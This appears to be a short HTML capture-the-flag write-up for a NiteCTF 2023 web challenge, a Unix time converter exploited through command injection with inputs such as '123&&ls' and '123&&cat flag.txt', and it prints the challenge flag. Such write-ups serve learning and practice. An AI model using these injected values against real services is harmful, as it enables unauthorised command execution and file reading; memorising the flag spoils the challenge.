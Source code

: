 <!DOCTYPE html>
<html>
<head>
    <style>
        body {
            font-family: Arial, sans-serif;
        }
        h1 {
            color: #333;
        }
        h2 {
            color: #666;
        }
        p {
            color: #999;
        }
        .flag {
            color: red;
            font-weight: bold;
        }
    </style>
</head>
<body>
    <h1>NiteCTF 2023 - ERASS Challenge Writeup</h1>

    <h2>Challenge Description</h2>
    <p>Author: ravinesPlains

Emergency response? Afraid not.

http://eraas.web.nitectf.live/</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        <li>i open link</li>
        <li>this is a epoch and unix date time convertor convert milisecond to date</li>
        <li>no normal ls or cat input accespt so i used 123&&ls and it run both and get flag.txt</li>
        <li>iuse 123&&cat  flag.txt and get flag</li> 
    </ol>

    <h2>Flag</h2>
    <p class="flag">The flag for this challenge is `nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`.</p>

    <h2>Conclusion</h2>
    <p>easy writeup for epoch and unix time convertor</p>
</body>
</html>
